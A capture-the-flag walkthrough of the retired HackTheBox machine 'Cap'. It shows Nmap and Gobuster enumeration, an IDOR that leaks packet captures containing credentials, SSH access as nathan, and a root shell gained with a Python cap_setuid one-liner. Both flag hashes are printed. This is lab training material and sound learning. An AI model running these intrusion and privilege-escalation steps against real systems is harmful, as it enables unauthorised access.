



# Cap

> Platform: HackTheBox
>
> Created by: [InfoSecJack](https://app.hackthebox.com/users/52045)
>
> Difficulty: Easy
>
> Status: Retired


## 🔗 Overview

_**[Cap](https://app.hackthebox.com/machines/Cap)** starts with an **IDOR** in the web app that lets you download other users’ <code>.pcap</code> files, where **leaked credentials can be found** and used for SSH access. Once inside, privilege escalation is possible because <code>/usr/bin/python3.8</code> has the <code>cap_setuid</code> capability, allowing you to run Python and **switch your UID to root**, **gaining full control of the machine**._


## 🔍 Enumeration

First of all, we will begin with the **Nmap**. Actually, you can just use a normal Nmap command, but here is my preferences.
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Cap]
└─$ nmap -sVSC <TARGET-IP> -T4 -Pn -n -vvv -oA capscan
Nmap scan report for <TARGET-IP>
Host is up, received user-set (0.019s latency).
Scanned at 2025-08-29 13:01:32 +08 for 10s
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC2vrva1a+HtV5SnbxxtZSs+D8/EXPL2wiqOUG2ngq9zaPlF6cuLX3P2QYvGfh5bcAIVjIqNUmmc1eSHVxtbmNEQjyJdjZOP4i2IfX/RZUA18dWTfEWlNaoVDGBsc8zunvFk3nkyaynnXmlH7n3BLb1nRNyxtouW+q7VzhA6YK3ziOD6tXT7MMnDU7CfG1PfMqdU297OVP35BODg1gZawthjxMi5i5R1g3nyODudFoWaHu9GZ3D/dSQbMAxsly98L1Wr6YJ6M6xfqDurgOAl9i6TZ4zx93c/h1MO+mKH7EobPR/ZWrFGLeVFZbB6jYEflCty8W8Dwr7HOdF1gULr+Mj+BcykLlzPoEhD7YqjRBm8SHdicPP1huq+/3tN7Q/IOf68NNJDdeq6QuGKh1CKqloT/+QZzZcJRubxULUg8YLGsYUHd1umySv4cHHEXRl7vcZJst78eBqnYUtN3MweQr4ga1kQP4YZK5qUQCTPPmrKMa9NPh1sjHSdS8IwiH12V0=
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDqG/RCH23t5Pr9sw6dCqvySMHEjxwCfMzBDypoNIMIa8iKYAe84s/X7vDbA9T/vtGDYzS+fw8I5MAGpX8deeKI=
|   256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPbLTiQl+6W0EOi8vS+sByUiZdBsuz0v/7zITtSuaTFH
80/tcp open  http    syn-ack ttl 63 Gunicorn
|_http-title: Security Dashboard
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
|_http-server-header: gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

From the **Nmap** results, looks like the port <code>80</code>, port <code>21</code> and port <code>22</code> are open.

Now try to **enumerate the web directory** of the page **using GoBuster**:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Cap]
└─$ gobuster dir -u http://<TARGET-IP>/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://<TARGET-IP>/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/data                 (Status: 302) [Size: 208] [--> http://<TARGET-IP>/]
/ip                   (Status: 200) [Size: 17452]
/netstat              (Status: 200) [Size: 32437]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

When going to the <code>/data</code> page, we found out that the page is a security dashboard where we can view tge security snapshot, IP config and network status of the server.




## ⚔️ Exploitation

In security snapshot page, there is an **[IDOR Vulnerabilities](https://portswigger.net/web-security/access-control/idor)** where we can view the other user data.



Download the <code>.pcap</code> file. Then, after viewing the contents of the file, we found out there is the credentials for the user <code>nathan</code>:



Now, access the <code>FTP</code> server using the **nathan's credentials**:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Cap]
└─$ ftp nathan@<TARGET-IP>
Connected to <TARGET-IP>.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||55379|)
150 Here comes the directory listing.
-rw-rw-r--    1 1001     1001           57 Aug 29 07:10 a.py
-rw-rw-r--    1 1001     1001       147138 Aug 29 07:00 a.txt
-rw-rw-r--    1 1001     1001       956174 Aug 29 06:57 linpeas.sh
-rwxrwxr-x    1 1001     1001        78883 Aug 29 06:40 linpeas_small.sh
drwxr-xr-x    3 1001     1001         4096 Aug 29 05:23 snap
-r--------    1 1001     1001           33 Aug 29 05:17 user.txt
226 Directory send OK.
ftp> more user.txt
```

<details>
<summary><b>🏳️user.txt</b></summary>
<b>b3c29ec4ca9465dbe8c65c4f92b6b5fe</b>
</details><br>

We are also able to <code>SSH</code> to the server using the same credentials:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Cap]
└─$ ssh nathan@<TARGET-IP>        
nathan@<TARGET-IP>'s password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Aug 29 07:30:51 UTC 2025

  System load:           0.01
  Usage of /:            36.6% of 8.73GB
  Memory usage:          38%
  Swap usage:            0%
  Processes:             265
  Users logged in:       1
  IPv4 address for eth0: <TARGET-IP>
  IPv6 address for eth0: dead:beef::250:56ff:feb9:e50b

  => There are 3 zombie processes.

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Aug 29 07:28:52 2025 from <IP>
nathan@cap:~$ 
```


## 💀 Privilege Escalation

Moving on to **escalate our privileges to root**. We need to find what can we leverage to spawn a privilege shell.

First we try to check with the **sudo permission** first
```
nathan@cap:~$ sudo -l
Sorry, user nathan may not run sudo on cap.
```

I also tried uploading <code>linpeas</code> from my server to ease up the process.

In <code>Capabilities</code> section, looks like something interesting that we can use to get the root shell:
```
╔══════════╣ Capabilities
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#capabilities 
.
.
.
Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip  <-- Looks interesting here
.
.
.
```

From [GTFOBins | python](https://gtfobins.github.io/gtfobins/python/#capabilities), in Capabilities section, we can spawn the root shell by running the command:
```
nathan@cap:/$ ./usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:/#
```

Read the root flag to complete the machine

<details>
<summary><b>🏳️root.txt</b></summary>
<b>b295ccb18ced3282889e456833fdf96e</b>
</details><br>


## 📌 Final Thoughts

Thank you for reading my writeups, actually this is my first rooted HTB box. Hope to learn more in near future.


## 📚 References:

- Indirect Object References (IDOR) by PortSwigger - https://portswigger.net/web-security/access-control/idor

- GTFOBins Python Capabilities Exploit - https://gtfobins.github.io/gtfobins/python/#capabilities